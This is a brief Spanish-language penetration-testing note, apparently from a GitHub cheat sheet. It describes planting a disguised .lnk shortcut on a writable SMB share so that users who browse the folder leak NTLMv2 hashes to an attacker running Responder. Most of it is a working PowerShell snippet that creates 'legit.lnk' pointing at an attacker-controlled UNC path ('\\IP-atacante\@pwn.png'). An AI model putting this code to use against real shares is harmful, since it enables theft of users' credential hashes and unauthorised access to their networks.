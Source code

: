 ### Info

Si podemos subir un archivo a una carpeta smb, podemos crear un falso lnk que nos permita aprovechar a responder para envenenar el tráfico ntlmv2 

### Creacion del archivo

    $objShell = New-Object -ComObject WScript.Shell
    $lnk = $objShell.CreateShortcut("legit.lnk")
    $lnk.TargetPath = "\\IP-atacante\@pwn.png"
    $lnk.WindowStyle = 1
    $lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
    $lnk.Description = "Browsing to the directory where this file is saved will trigger an auth 
    request."
    $lnk.HotKey = "Ctrl+Alt+O"
    $lnk.Save()


